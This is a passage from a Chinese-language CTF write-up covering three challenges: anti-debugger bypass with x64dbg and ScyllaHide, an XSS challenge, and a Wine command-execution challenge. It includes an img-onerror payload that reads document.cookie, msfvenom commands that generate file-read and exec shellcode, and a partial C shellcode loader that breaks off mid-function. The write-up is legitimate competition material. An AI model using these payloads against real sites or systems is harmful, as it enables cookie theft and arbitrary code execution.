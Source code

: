 run 了一下，非但没断下还自己退了。看了看其他函数发现有检测 debugger，于是改用 x64dbg + ScyllaHide 单步。

![x64dbg](assets/6.jpg)

剩下来只需要对着 ida 伪代码，通过改寄存器的方式更改跳转目标地址，再等生成 flag 后直接从内存里拷出来。


## 微积分计算小练习

看题目附件能知道是考察 xss。
找了个 xss cheatsheet 一个个试，发现 img onerror 的方式是有效的。
把下面当作姓名提交，再让 xss bot 去访问即可。

```xml
<img src=x onerror="greeting.append(document.cookie)">
```

## 杯窗鹅影

看到第二问需要任意命令执行，搜了一下 wine 里能直接调用 linux 的 syscall，自然而然想到可以写段汇编直接让程序直接去跑。

然而不知道我本地的 mingw gcc 有什么问题，inline asm 会报各种奇怪的错，最后采取跑 shell code 的方式。

shell code 则用 ~~大家都爱的~~ msfvenom 生成，pwntools 生成的会 segfault，不高兴查了（

阅读文件：
```bash
msfvenom -p linux/x86/read_file PATH=/flag1 -f c
```

执行文件：
```bash
msfvenom -p linux/x64/exec CMD=/readflag -f c
```

Windows shell code copypasta:

```c
#include <windows.h>

int main()
{
    unsigned char code[] = {};
    
    SYSTEM_INFO system_info;
    GetSystemInfo(&system_info);

    int page_size = system_info.dwPageSize;

    // prepare the memory in which the machine code will be put (it's not executable yet):
    const char* buffer = VirtualAlloc(NULL, page_size, MEM_COMMIT, PAGE_READWRITE);

    // copy the machine code into that memory:
    memcpy(buffer, code, sizeof(code));

```